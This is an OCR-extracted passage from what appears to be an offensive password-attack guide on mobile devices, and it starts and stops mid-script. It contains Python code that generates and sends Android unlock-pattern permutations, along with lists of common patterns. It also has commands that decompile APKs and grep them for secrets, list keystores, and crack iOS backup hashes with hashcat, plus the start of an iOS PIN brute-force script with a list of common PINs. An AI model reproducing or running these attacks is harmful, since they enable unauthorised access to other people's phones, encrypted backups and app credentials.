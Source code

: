 ```bash
    for length in range(min_length, max_length + 1):
        for pattern in itertools.permutations(range(1, 10), length):
            patterns.append(pattern)
    return patterns

# Common patterns to try first
common_patterns = [
    [1, 2, 3, 6, 9],  # L shape
    [1, 2, 3, 4, 5, 6, 7, 8, 9],  # Full pattern
    [2, 4, 6, 8],  # Cross
    [1, 5, 9],  # Diagonal
    [3, 5, 7],  # Other diagonal
]

if __name__ == "__main__":
    print("Testing common patterns first...")
    for pattern in common_patterns:
        print(f"Trying pattern: {pattern}")
        send_pattern(pattern)
        time.sleep(2)  # Wait for unlock attempt
EOF

# APK password extraction
aapt dump badging app.apk | grep package
apktool d app.apk
grep -r "password\|secret\|key" app/

# Android keystore attacks
keytool -list -v -keystore debug.keystore
```

### 11.2 iOS Password Attacks

```bash
# iOS backup password attacks
# Extract backup manifest
python3 -c "
import plistlib
with open('Manifest.plist', 'rb') as f:
    manifest = plistlib.load(f)
    print('IsEncrypted:', manifest.get('IsEncrypted', False))
"

# Hashcat iOS backup cracking
# First, extract hash from backup
python3 ios_backup_extractor.py backup_folder > ios_hash.txt
hashcat -m 14800 ios_hash.txt wordlist.txt

# Custom iOS PIN brute force (jailbroken devices)
cat > ios_pin_crack.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import time

def try_pin(pin):
    """Try PIN on jailbroken iOS device"""
    # This would require custom iOS tools and root access
    # Implementation depends on iOS version and jailbreak tools
    pass

# Common iOS PINs
common_pins = [
    "0000", "1234", "1111", "0001", "1212",
```